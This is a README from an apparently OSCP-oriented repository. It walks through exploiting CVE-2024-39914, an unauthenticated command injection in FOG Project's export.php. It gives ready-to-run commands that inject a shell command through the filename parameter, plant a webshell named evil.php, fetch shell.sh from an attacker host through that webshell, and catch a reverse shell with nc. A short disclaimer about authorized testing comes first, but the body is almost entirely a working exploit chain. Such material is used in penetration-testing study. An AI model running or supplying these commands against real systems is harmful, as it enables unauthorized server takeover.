⚠️ WARNING: This script is provided for educational and authorized penetration testing purposes only. Do not use it on systems you do not own or have explicit permission to test.

🙏 CREDITS: The original script is from Tom Elliot [@mastacontrola](https://github.com/mastacontrola) and can be found [here](https://github.com/FOGProject/fogproject/security/advisories/GHSA-7h44-6vq6-cq8j)

📚 REFERRENCES:
1. [OffSec: CVE-2024-39914 – Unauthenticated Command Injection in FOG Project’s export.php](https://www.offsec.com/blog/cve-2024-39914/)
2. [@mastacontrola: GHSA-7h44-6vq6-cq8j ](https://github.com/FOGProject/fogproject/security/advisories/GHSA-7h44-6vq6-cq8j)


## Exploit
Verify that the system is vulnerable before using the exploit.

1. Start a web server. Monitor the logs to confirm hit from target IP.
   ```bash
   python3 -m http.server 80
   ```
   
2. Send a payload to the system.
   ```bash
   curl -X POST "http://192.168.186.237/fog/management/export.php?filename=\$(curl+192.168.45.210)&type=pdf" \
        -d "fogguiuser=fog&nojson=2"
   ```

3. Proceed to use the [script](https://github.com/cw-l/oscp/blob/main/CVE-2024-39914/CVE-2024-39914.py) to insert webshell to the system, if vulnerable. Test that the webshell works.
   ```bash
   python3 ./CVE-2024-39914.py -t 192.168.138.88 -p 80 -f evil.php

   curl http://192.168.138.88/fog/management/evil.php?cmd=id
   ```

4. Transfer a reverse shell to the target via the webshell. Remember to encode the URL. The listener should catch a shell.
   ```bash
   curl http://192.168.138.88/fog/management/evil.php?cmd=curl%20-O%20http://192.168.45.168/shell.sh

   rlwrap nc -lvnp 443
   curl http://192.168.138.88/fog/management/evil.php?cmd=bash%20./shell.sh
   ```
